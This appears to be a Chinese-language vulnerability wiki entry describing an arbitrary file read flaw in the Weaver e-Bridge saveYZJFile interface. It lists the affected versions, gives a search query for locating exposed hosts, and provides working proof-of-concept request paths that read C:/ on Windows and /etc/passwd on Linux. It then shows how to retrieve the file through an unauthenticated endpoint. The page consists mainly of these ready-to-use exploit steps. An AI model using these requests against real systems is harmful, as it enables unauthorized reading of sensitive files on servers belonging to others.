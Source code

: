 # 泛微OA E-Bridge saveYZJFile 任意文件读取漏洞

## 漏洞描述

泛微云桥（e-Bridge）是上海泛微公司在”互联网+”的背景下研发的一款用于桥接互联网开放资源与企业信息化系统的系统集成中间件。泛微云桥存在任意文件读取漏洞，攻击者成功利用该漏洞，可实现任意文件读取，获取敏感信息。

## 影响版本

<a-checkbox checked>泛微云桥 e-Bridge 2018-2019 多个版本</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="泛微云桥e-Bridge"</a-checkbox></br>

## 漏洞复现

```
# Windows验证POC

/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/&fileExt=txt
```

![img](/assets/PeiQi-Wiki/img/fanwei-1.png)



成功返回 `id值`,说明含有此漏洞

<a-alert type="success" message="调用查看文件接口访问 /file/fileNoLogin/id值" description="" showIcon>
</a-alert>
<br/>

![img](/assets/PeiQi-Wiki/img/fanwei-2.png)



### 

```
# Linux验证POC

/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt
```

![img](/assets/PeiQi-Wiki/img/fanwei-3.png)



成功返回 `id值`,说明含有此漏洞

调用查看文件接口访问 `/file/fileNoLogin/id值`

![img](/assets/PeiQi-Wiki/img/fanwei-4.png)